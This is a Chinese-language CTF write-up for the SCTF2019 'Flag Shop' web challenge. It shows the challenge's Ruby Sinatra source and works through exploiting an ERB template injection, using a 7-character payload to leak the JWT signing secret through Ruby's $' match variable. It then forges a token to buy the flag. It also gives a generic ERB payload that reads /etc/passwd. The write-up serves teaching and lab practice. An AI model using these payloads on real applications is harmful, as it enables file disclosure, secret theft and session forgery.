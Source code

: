 # \[SCTF2019]Flag Shop

## \[SCTF2019]Flag Shop

## 考点



## wp

给了uid，金坷垃，flag价格三个参数，同时三个按钮，抓包。

`buy flag`按钮是POST请求`/shop`，在后端判断金坷垃是否够买flag

`reset`是GET请求`/api/auth`，返回新的cookie，`auth=eyJhbGciOiJIUzI1NiJ9.eyJ1aWQiOiJhOTNkMDI3MS1iYjZlLTQyNTEtOGQ5Mi1lZjgxOWY1MTgxODQiLCJqa2wiOjIwfQ.F4fAw7T3hcalQsKyKjkLs6zbylPHTKEj6s9pJ7_XEcA`，然后请求`/shop`获取主页，最后请求`/api/info`，获取用户uid和金坷垃

&#x20;work是GET请求`/work?name=bot&do=bot%20is%20working`，随机增加金坷垃，然后请求`/shop`获取主页，最后请求`/api/info`，获取用户uid和金坷垃

把cookie放在[`jwt.io`](https://jwt.io)看一下

![](<../.gitbook/assets/image (10).png>)

需要密钥才能修改，尝试jwt-crack破解未果



扫目录，发现`robots.txt`，提示访问`/filebak`，得到源码

```javascript
require 'sinatra'
require 'sinatra/cookies'
require 'sinatra/json'
require 'jwt'
require 'securerandom'
require 'erb'

set :public_folder, File.dirname(__FILE__) + '/static'

FLAGPRICE = 1000000000000000000000000000
ENV["SECRET"] = SecureRandom.hex(64)

configure do
  enable :logging
  file = File.new(File.dirname(__FILE__) + '/../log/http.log',"a+")
  file.sync = true
  use Rack::CommonLogger, file
end

get "/" do
  redirect '/shop', 302
end

get "/filebak" do
  content_type :text
  erb IO.binread __FILE__
end

get "/api/auth" do
  payload = { uid: SecureRandom.uuid , jkl: 20}
  auth = JWT.encode payload,ENV["SECRET"] , 'HS256'
  cookies[:auth] = auth
end

get "/api/info" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  json({uid: auth[0]["uid"],jkl: auth[0]["jkl"]})
end

get "/shop" do
  erb :shop
end

get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end

post "/shop" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }

  if auth[0]["jkl"] < FLAGPRICE then

    json({title: "error",message: "no enough jkl"})
  else

    auth << {flag: ENV["FLAG"]}
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    json({title: "success",message: "jkl is good thing"})
  end
end


def islogin
  if cookies[:auth].nil? then
    redirect to('/shop')
  end
end
```

查一下sinatra是ruby的一个Web框架，erb是ruby自带的模板渲染包，如果输入可控，它会导致模板注入。

```ruby
require 'erb'

template = "text to be generated: <%= x %>"
erb_object = ERB.new(template)
x = 7*7
puts erb_object.result(binding())
```

枚举当前类的可用方法

```ruby
require 'erb'

template = "text to be generated: <%= x %>"
erb_object = ERB.new(template)
x = self.methods
puts erb_object.result(binding())
```

Ruby ERB模板注入读取文件的payload：`<%= File.open('/etc/passwd').read %>`

看给的代码，在访问work时，有两个判断

一个是传入`SECRET`参数，`params[:SECRET].nil?`判断是否传入`SECRET`参数，然后匹配`SECRET`中的小写字母和数字并返回，再用`#{}`获取这个变量，最后和`ENV["SECRET"]`进行匹配。

> `#{var}`在Ruby中进行变量替换。例如
>
> ```
> name="Jack"
> puts "His name i #{name}." 
> ```

> match是进行匹配。例如
>
> ```
> name = "peri0dLL".match(/[0-9a-z]+/)
> puts "His name i #{name}." 
> ```

另外是传入do和name参数，满足`name[0:7] is working==do`，然后使用ERB渲染`name`

```ruby
get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end
```

也就是说，传入的name不超过7个字符，并且符合这种形式`name=1234567&do=1234567 is working`。而ERB模板渲染的字符`<%=%>`就用了5个，只有两个字符可用。

使用`<%=1%>`测试，URL编码之后再传入

![](<../.gitbook/assets/image (19).png>)

这里先进行两次匹配操作，还能够进行模板注入，可以通过模板注入返回全局变量

```ruby
#!/usr/bin/ruby
# -*- coding: UTF-8 -*-
TEXT = "PREFIX.body.SUFFIX"
s = "prefix.body.suffix".match("#{TEXT.match(/[0-9a-z]+/)}")
puts s
puts $~
puts $`
puts $'
```

输出

```
body
body
prefix.
.suffix
```

payload：`GET /work?name=%3c%25%3d%24'%25%3e&do=%3c%25%3d%24'%25%3e%20is%20working&SECRET=`

![](<../.gitbook/assets/image (17).png>)

得到密钥

```
e116342f880734ac2a7b278cf120d847f420a344d98fc55b294c5eb4eae619ee50360e28da770ed194bf743b0dd611187f9ebd79c4c5d98dfbaa72db2d109987
```

jkl改成10000000000000000000000000000重新加密

```
eyJhbGciOiJIUzI1NiJ9.eyJ1aWQiOiJkNmRmOTQwYi1kZWIzLTQ3MGEtOGE3Yy1lYTE5MzRmZWNkMjUiLCJqa2wiOjFlKzI4fQ.hVvQKdiKAVU_i0oEjUPdFyyby_Rx3NWTLzWTQE-mnq4
```

更改cookie再点击`buy flag`，在cookie中返回flag

```ruby
auth << {flag: ENV["FLAG"]}
auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
cookies[:auth] = auth
json({title: "success",message: "jkl is good thing"})
```

## 小结

1. [Ruby ERB模板注入](https://forum.butian.net/share/977)
2. [手把手教你如何完成Ruby ERB模板注入](https://zhuanlan.zhihu.com/p/29440823)

